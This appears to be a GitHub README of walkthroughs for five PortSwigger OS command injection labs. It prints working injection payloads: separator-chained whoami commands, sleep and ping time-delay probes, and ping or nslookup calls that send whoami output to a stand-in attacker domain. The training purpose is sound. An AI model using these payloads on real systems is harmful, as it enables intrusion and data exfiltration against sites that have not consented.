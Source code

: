 # OS Command Injection
## Summary
- [Lab1: OS command injection, simple case](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab1-os-command-injection-simple-case)
- [Lab2: Detecting blind OS command injection using `time delays`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab2-detecting-blind-os-command-injection-using-time-delays)
- [Lab3: Blind OS command injection with `output redirection`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab3-blind-os-command-injection-with-output-redirection)
- [Lab4: Blind OS command injection with `out-of-band interaction`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab4-blind-os-command-injection-with-out-of-band-interaction)
- [Lab5: Blind OS command injection with `out-of-band data exfiltration`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab5-blind-os-command-injection-with-out-of-band-data-exfiltration)

### Lab1: OS command injection, simple case
- At the first, it is a so simple lab, because it is an `in-bind` command injection vulnerability, and we will receive the response of the command in the application when we test any payload of them.
- In the simple case we will use the `commands separators` or `shell metacharacters` in our payloads.
- Commands separators as: `&, &&, |, ||, ;, \n, $()`
- Many command injection attacks need to use the new line `\n` as URL encoding `%0a`.

```
productId=2+%26+whoami+#&storeId=1
productId=1&storeId=3|whoami
productId=1&storeId=1&&whoami
productId=1&storeId=1%26whoami%26
```
- It is important to make a URL encoding for the commands separators to obfuscate them.
- I think it is best to inject spaces to separate command line arguments and also note to convert any space to a `+` sign.

![Lab1_another_payload2.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/Lab1_another_payload2.png)

-----------------------------------------------------------------------
### Lab2: Detecting blind OS command injection using `time delays`
- It is a blind command injection vulnerability, the server doesn't return the response for us when we send our command, and we won't know if it was executed or not.
- So we will use one of the techniques, which is called `trigger a time delay`.
- We will try to delay the response that we will receive to ensure the command is executed on the server by making the server ping on the localhost.
- If we tried to cause the delay in the parameters, we will find the `email` parameter is vulnerable.

```
email=injection%40gmail.com||sleep 10||subject=...
email=injection%40gmail.com||ping -c 10 127.0.0.1||subject=...
email=injection%40gmail.com & ping -c 10 127.0.0.1 #&subject=...
```
- Don't forget to make URL encodeing.

![Lab2.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/Lab2.png)

-----------------------------------------------------------------------
### Lab3: Blind OS command injection with `output redirection`
- At first, we will try to confirm that there is an OS command injection vulnerability in any parameter by using time delays, I think it is the best way to detect and prove it.

![lab3_confirm.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_confirm.png)
- I have seen delays in the response time, so I ensured there is a vulnerability in the `email` parameter.
- We will redirect the results of any commands which we want to do in a text file, and we will access this file to retrieve the content.

![lab3_output_redirection.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_output_redirection.png)
- Now, we want to access this file in the `images` writable directory.
- If you map the application, you will notice the images directory holds all images of the application, and there is a parameter called `filename` that calls the images from the `images` directory.

![lab3_access_file.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_access_file.png)

-----------------------------------------------------------------------
### Lab4: Blind OS command injection with `out-of-band interaction`
- In this technique, we will try to make the server interact with any server we can control and monitor in order to make sure that the server has sent the request to our server and executed the injected command which we passed into the web application.
- So we can use `ping` to make any request and interact with the domain of our server, or make `nslookup` for the domain to resolve it to the IP address.
- Then we will monitor whether the requests succeeded or not.

```
parameter=value || ping subdomain.webAttacker.com ||
parameter=value || nslookup subdomain.webAttacker.com ||
```
#### `Note:`
- In `lab4 & lab5`, you will use the `Burp Collaborator client`, but you must have the `Burp Suite professional`.
- But in the real world, you can use any server you can control.

-----------------------------------------------------------------------

### Lab5: Blind OS command injection with `out-of-band data exfiltration`
- In another technique, you can encapsulate your command in the injected command during executing the original command when it connects with our server.
- you will make it by using:
	- Backtick character  **\`encapsulated command\`**.
	- Dollar character **$(encapsulated command)**.

```
parameter=value || ping `whoami`.subdomain.webAttacker.com ||
parameter=value || ping $(whoami).subdomain.webAttacker.com ||
parameter=value || nslookup `whoami`.subdomain.webAttacker.com ||
parameter=value || nslookup $(whoami).subdomain.webAttacker.com ||
``` 
